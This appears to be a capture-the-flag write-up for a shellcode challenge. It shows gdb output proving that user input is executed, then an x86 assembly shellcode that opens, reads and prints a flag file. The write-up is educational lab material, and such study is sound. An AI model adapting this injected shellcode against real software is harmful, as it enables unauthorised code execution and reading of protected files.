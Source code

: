 From the `<main>` function, we can tell that the user input is being run directly, just as we see in exploit-exercises.

This below is the proof that the input is being run. The segfault occures in `0x0804a06b` as the character `'a'` has the same byte as a valid instruction `"popa"`. 
```
(gdb) c
Continuing.
Give my your shellcode:aaaaaaaaaaabbbbbbbbbbbccccccccccddddddddddeeeeeeeeeeffffffffffgggggggggghhhhhhhhhhiiiiiiiiiijjjjjjjjjjkkkkkkkkkkllllllllllmmmmmmmmmmmnnnnnnnnnnooooooooooopppppppppp

Program received signal SIGSEGV, Segmentation fault.
0x0804a06b in shellcode ()
=> 0x0804a06b <shellcode+11>:	62 62 62	bound  esp,QWORD PTR [edx+0x62]
(gdb) x/s 0x804a06b
0x804a06b <shellcode+11>:	'b' <repeats 11 times>, "ccccccccccddddddddddeeeeeeeeeeffffffffffgggggggggghhhhhhhhhhiiiiiiiiiijjjjjjjjjjkkkkkkkkkkllllllllll", 'm' <repeats 11 times>, "nnnnnnnnnn", 'o' <repeats 11 times>, "pppppppppp\n"
(gdb) x/s 0x804a060
0x804a060 <shellcode>:	'a' <repeats 11 times>, 'b' <repeats 11 times>, "ccccccccccddddddddddeeeeeeeeeeffffffffffgggggggggghhhhhhhhhhiiiiiiiiiijjjjjjjjjjkkkkkkkkkkllllllllll", 'm' <repeats 11 times>, "nnnnnnnnnn", 'o' <repeats 11 times>, "pppppppppp\n"
(gdb) x/5i 0x804a060
   0x804a060 <shellcode>:	popa   
   0x804a061 <shellcode+1>:	popa   
   0x804a062 <shellcode+2>:	popa   
   0x804a063 <shellcode+3>:	popa   
   0x804a064 <shellcode+4>:	popa   
(gdb) 
```

### Testing a concept
Armed with the knowledge above, I began my attempts to exploit this vulnerability.
This is my first attempt:
```
mov eax, 0x5
push 0x67616c66
push 0x2f77726f
push 0x2f656d6f
push 0x682f
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80	;open("/home/orw/flag", 0x0, 0x0)
mov edi, eax

read:
mov ebx, edi	;edi stores the fd of the file we opened. 
mov eax, 0x3
mov ecx, esp	;store the character in the stack
mov edx, 0x1	;read 1 character from the flag file
int 0x80	;read(file, top of stack, 1 char)

inc eax
xor ebx,ebx
mov ecx, esp
int 0x80	;write(stdout, top of stack, 1 char)

cmp ecx, 0x0
jne read

String literal:
```